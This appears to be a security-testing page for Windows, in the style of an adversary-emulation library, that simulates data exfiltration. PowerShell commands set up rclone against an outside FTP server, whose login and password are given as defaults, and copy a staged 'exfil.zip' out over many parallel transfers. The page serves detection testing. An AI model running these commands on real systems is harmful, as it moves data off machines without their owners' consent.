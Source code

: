 **Supported Platforms:** Windows


**auto_generated_guid:** b854eb97-bf9b-45ab-a1b5-b94e4880c56b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ftp_server | Your own ftp server | string | ftp.dlptest.com|
| ftp_pass | Your FTP user's password | string | rNrKYTX9g7z3RgJRmxWuGHbeu|
| ftp_user | Your FTP username | string | dlpuser|
| ftp_port | Your FTP's port | integer | 21|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$rclone_bin = Get-ChildItem C:\Users\Public\Downloads\ -Recurse -Include "rclone.exe" | Select-Object -ExpandProperty FullName
$exfil_pack = Get-ChildItem C:\Users\Public\Downloads\ -Recurse -Include "exfil.zip" | Select-Object -ExpandProperty FullName
&$rclone_bin config create ftpserver "ftp" "host" #{ftp_server} "port" #{ftp_port} "user" #{ftp_user} "pass" #{ftp_pass}
&$rclone_bin copy --max-age 2y $exfil_pack ftpserver --bwlimit 2M -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 12 -P --ftp-no-check-certificate
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if the exfil package exists
##### Check Prereq Commands:
```powershell
if (Test-Path C:\Users\Public\Downloads\exfil.zip) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
fsutil file createnew C:\Users\Public\Downloads\exfil.zip 20485760
```
##### Description: Check if rclone zip exists
##### Check Prereq Commands:
```powershell
if (Test-Path C:\Users\Public\Downloads\rclone-current-windows-amd64.zip) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest -Uri "https://downloads.rclone.org/rclone-current-windows-amd64.zip" -OutFile "C:\Users\Public\Downloads\rclone-current-windows-amd64.zip"
Expand-Archive C:\Users\Public\Downloads\rclone-current-windows-amd64.zip -DestinationPath C:\Users\Public\Downloads\
```
